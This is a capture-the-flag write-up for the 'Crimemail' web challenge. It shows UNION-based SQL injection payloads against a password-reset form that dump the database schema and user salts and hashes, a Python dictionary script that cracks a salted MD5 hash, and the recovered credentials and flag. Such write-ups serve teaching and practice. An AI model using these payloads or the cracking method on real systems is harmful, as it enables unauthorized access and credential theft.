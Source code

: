 # Crimemail, Web, 20pts

## Problem

Collins Hackle is a notorious bad guy, and you've decided to take him down. You need something on him, anything, to send the police his way, and it seems he uses CrimeMail, a very specialized email service, to communicate with his associates.

Let's see if you can hack your way in his account...

Hint: his password's md5 is computed as followed: md5 = md5($password + $salt) and Collins Hackle has a password which can be found in an english dictionary

https://crimemail.ctf.insecurity-insa.fr/

## Solution

When I've opened provied url, a simple website with login was presented:


![Screen caption](1.png)


There was no obvious flaw(s) there, so I've checked __Lost password?__ link. Almost immediately I've found this feature was vulnerable to the SQL Injection:

![Screen caption](2.png)

As a result I've seen familiar MySQL error message (actually the part of familiar "You have an error in your SQL syntax; check the manual that corresponds..." :) 


![Screen caption](3.png)


First, using simple ```order by ``` clause I've figured out that there is only one column in query. So first what I've done was to read database structure:


```
username=hello' union select group_concat(concat(table_name,0x20,column_name)) from information_schema.columns where table_schema=database()-- 
```

As a result, I've got an ```users``` table structure:


![Screen caption](4.png)

Getting an information from ```users``` table was simple:


```
username=hello' union select group_concat(concat(username,0x20,pass_salt,0x20,pass_md5)) from users-- 
```

There were couple of users in database, and Collins Hackle seemed to be one of them:


![Screen caption](5.png)


His login details were as follows (username, salt used to hash the password and hash of the actual password itself):


```
c.hackle yhbG f2b31b3a7a7c41093321d0c98c37f5ad
```

From the hint attached to the challenge I knew that MD5 hash was a result of following operation:

```
md5 = md5($password + $salt)
```

Using one of password dictionaries I have, I've created small Python script to find the correct plaintext:


```python
#!/usr/bin/python
import hashlib

for passwd in open("/Users/bl4de/hacking/dictionaries/rockyou.txt", "r"):
    if hashlib.md5(passwd.strip() + "yhbG").hexdigest() == "f2b31b3a7a7c41093321d0c98c37f5ad":
        print "[+] password for Collins Hackle is {}".format(passwd.strip())
        exit(0)

print "[+] Done"
```

It was found within the blink of eye:


```
bl4de:~/hacking/ctf/2018/INSHACK_CTF_2018 $ ./colins_hackle.py
[+] password for Collins Hackle is pizza
```


When I've logged using Collin's credentials (c.hackle/pizza), I've got the flag:


![Screen caption](6.png)


Flag: **INSA{s3cr3t_l0cat10n}**